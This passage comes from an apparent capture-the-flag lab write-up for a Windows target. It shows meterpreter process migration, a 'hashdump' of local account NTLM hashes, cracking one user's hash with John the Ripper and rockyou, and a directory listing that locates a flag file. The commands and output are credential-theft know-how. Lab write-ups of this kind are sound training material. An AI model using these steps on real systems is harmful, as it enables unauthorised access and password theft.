 - Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
    ```bash
    meterpreter > migrate 2824
    [*] Migrating from 600 to 2824...
    [*] Migration completed successfully.
    ```

## Cracking
- Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
    ```bash
    meterpreter > hashdump
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
    ```

- Copy this password hash to a file and research how to crack it. What is the cracked password?
    ```bash
    $ john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
    Warning: no OpenMP support for this hash type, consider --fork=6
    Press 'q' or Ctrl-C to abort, almost any other key for status
    REDACTED         (Jon)
    1g 0:00:00:00 DONE (2021-01-09 07:02) 2.127g/s 21702Kp/s 21702Kc/s 21702KC/s alqui..alpusidi
    Use the "--show --format=NT" options to display all of the cracked passwords reliably
    Session completed
    ```

## Find flags!
- Flag1? This flag can be found at the system root. 
    ```bash
    meterpreter > ls
    Listing: C:\
    ============

    Mode              Size     Type  Last modified              Name
    ----              ----     ----  -------------              ----
    40777/rwxrwxrwx   0        dir   2009-07-13 23:18:56 -0400  $Recycle.Bin
    40777/rwxrwxrwx   0        dir   2009-07-14 01:08:56 -0400  Documents and Settings
    40777/rwxrwxrwx   0        dir   2009-07-13 23:20:08 -0400  PerfLogs
    40555/r-xr-xr-x   4096     dir   2009-07-13 23:20:08 -0400  Program Files
    40555/r-xr-xr-x   4096     dir   2009-07-13 23:20:08 -0400  Program Files (x86)
    40777/rwxrwxrwx   4096     dir   2009-07-13 23:20:08 -0400  ProgramData
    40777/rwxrwxrwx   0        dir   2018-12-12 22:13:22 -0500  Recovery
    40777/rwxrwxrwx   4096     dir   2018-12-12 18:01:17 -0500  System Volume Information
    40555/r-xr-xr-x   4096     dir   2009-07-13 23:20:08 -0400  Users
    40777/rwxrwxrwx   16384    dir   2009-07-13 23:20:08 -0400  Windows
    100666/rw-rw-rw-  24       fil   2018-12-12 22:47:39 -0500  flag1.txt
    0000/---------    1457008  fif   1970-01-23 10:01:52 -0500  hiberfil.sys
    0000/---------    1457008  fif   1970-01-23 10:01:52 -0500  pagefile.sys
